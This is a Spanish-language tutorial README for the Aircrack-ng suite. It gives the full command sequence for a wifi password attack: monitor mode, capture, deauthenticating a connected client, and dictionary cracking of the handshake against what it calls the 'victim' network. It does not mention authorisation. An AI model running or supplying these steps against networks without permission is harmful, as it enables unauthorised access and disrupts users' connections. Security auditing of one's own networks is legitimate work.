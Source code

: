 # Guía de uso Aircrack-ng


<p align="center">
<img src="./Img/logo.jpg">
</p>

<br>

Aircrack-ng es una suite de programas que nos permitirán realizar auditorías inalámbricas Wifi a routers y puntos de acceso Wifi. 

En esta Guía aprenderás a como realizar una auditoría a una red wifi con una lista de
contraseñas.

<br>

## Requisitos

* Kali Linux

* Tarjeta de Wifi con modo monitor

<br>

## USO
Lo primero será iniciar el modo monitor de nuestra tarjeta con airmon-ng. Se recomienda estar en usuario
root

```
iwconfig 
airmon-ng 
airmon-ng start wlan0 
airmon-ng check kill
```

<br>

![Informatica](Img/iwconfig.jpg)

<br>

Luego iniciamos el escaneo de redes wifi que hay a nuestro alrededor.

```
airodump-ng wlan0
```

<br>

![Informatica](Img/scan.jpg)

<br>

Ahora seleccionamos el canal de la red, luego agregamos un nombre para guardar el archivo de captura y por
último el BSSID de la red.

```
airodump-ng -c 6 -w auditoria-wifi --bssid 06:A1:51:9A:2F:2F wlan0
```

Como podemos observar solo 1 dispositivo está conectado a la red este dispositivo será la clave para poder
entrar a la red, lo primero que haremos será desconectar el dispositivo de la red. Primero seleccionamos el
número de veces que va a desautenticar el dispositivo luego seleccionamos el BSSID de la red y por último el
BSSID del dispositivo.

```
aireplay-ng -0 50 -a 06:A1:51:9A:2F:2F -c 2E:C7:CB:0E:98:C4 wlan0
```
<br>

![Informatica](Img/desconectar.jpg)

<br>

Ahora la fase final será usar nuestro archivo de captura y nuestra lista de contraseñas para poder saber la
contraseña de la red. Ingresamos primero la ubicación de la lista de contraseñas luego el BSSID del al red y
por último el archivo de captura.

```
aircrack-ng -w /root/Hacking/Diccionarios/wifi.txt -b 06:A1:51:9A:2F:2F auditoriawifi-
01.cap
```
<br>

![Informatica](Img/contraseña.jpg)

<br>

Como podemos ver hemos conseguido la contraseña de la red víctima, dependiendo la contraseña aircrackng
tardara en descifrar la contraseña de la red.
